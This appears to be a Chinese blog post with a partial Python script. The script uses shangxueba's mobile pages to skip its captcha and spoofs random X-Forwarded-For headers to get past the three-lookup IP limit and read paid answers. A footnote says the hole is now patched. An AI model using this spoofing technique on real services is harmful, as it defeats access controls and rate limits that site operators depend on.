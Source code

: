 ## 绕过验证码，显示图片答案

在查看网页源代码的时候，发现里面有一个跳转代码，即遇到移动设备访问的时候，会自动跳转到移动端 [m.shangxueba.com/ask/](http://m.shangxueba.com/ask/) 页面。

![shangxueba-mobile.png](/images/shangxueba-mobile.png "网页源代码")

通过移动设备进入该网站后点击「查看答案」，不需要输入验证码查看，不过仍会有三次查询限制。除此之外，还有一个问题，有的题目答案中含有图片，因此之前的脚本无法在命令行窗口中显示答案。

![shangxueba-web-answer-by-picture.png](/images/shangxueba-web-answer-by-picture.png "引用图片的答案")

于是，在直接删减掉验证码模块的同时，顺便解决了答案中有图片的问题，完整 Python 代码如下：

```python
import random
import requests
import urllib3
urllib3.disable_warnings() # 这句和上面一句是为了忽略 https 安全验证警告，参考：https://www.cnblogs.com/ljfight/p/9577783.html
from bs4 import BeautifulSoup
import webbrowser

def get_question(session, dataid):
	link = "https://m.shangxueba.com/ask/" + dataid + ".html"
	r = session.get(link)
	soup = BeautifulSoup(r.content, "html.parser")
	try:
		description = soup.find(attrs={"name":"description"})['content'] # 抓取题干内容
		if(description and description[0:5] != '上学吧提供'): # 页面错误的话，显示的内容是：上学吧提供考研、公务员、司法、会计、金融等各种资格考试认证学习资料,视频课程,真题,模拟试题分享下载服务和培训服务
			return description
		else:
			return "无法获取题目内容！"
	except: # 有的时候网址出错会弹JavaScript弹框：该问题不存在或未审核
		return "该问题不存在或未审核！"

def get_answer(session, dataid):
	data = {
		"id": dataid,
		"action": "showZuiJia"
	}
	r = session.post("https://m.shangxueba.com/ask/ask_getzuijia.aspx", data=data) # 核查验证码正确性
	soup = BeautifulSoup(r.content, "html.parser")
	ans = soup.select('.replyCon')
	if(ans):
		images = ans[0].select('img') # 有的题目答案中有图片，例如：https://www.shangxueba.com/ask/9710781.html
		if(images): # 有的答案中图片出错，链接为：http://www.shangxueba.com/exam/images/onErrorImg.jpg
			with open('shangxueba_answer.html','w') as f:
				f.write(str(ans[0]))
				f.close()
				webbrowser.open('shangxueba_answer.html')
				return "答案中有图片，已自动打开答案网页文件。如没有自动打开网页，可以手动打开 shangxueba_answer.html"
		return ans[0].text.strip()
	else:
		return "答案获取失败！请检查链接是否正确。"

if __name__ == '__main__':
	s = requests.session()
	print("*"*45 + "\n上学吧答案神器（绕过验证码 + 破解IP限制）\nby Tsing @Zhihu 2019.04.02\n" + "*"*45)
	while True:
		s.headers.update({"X-Forwarded-For":"%d.%d.%d.%d"%(random.randint(120,125),random.randint(1,200),random.randint(1,200),random.randint(1,200))}) # 这一句是整个程序的关键，通过修改 X-Forwarded-For 信息来欺骗 ASP 站点对于 IP 的验证。
```

[^1]: 原文链接：[Python 突破上学吧的 IP 限制](https://blog.csdn.net/qq_41861526/article/details/85573479)（目前已被删除）。
[^2]: 完整的匹配识别代码点击此处下载：[shangxueba-number-recognition.zip](/uploads/shangxueba-number-recognition.zip)。
[^3]: 上学吧网站已对该漏洞进行了修复，取消了三次免费看答案的功能，不再开放免费查看答案的入口，导致获取不到最佳答案返回值，目前此方法已失效，仅作参考学习使用，这里不再提供脚本的下载地址。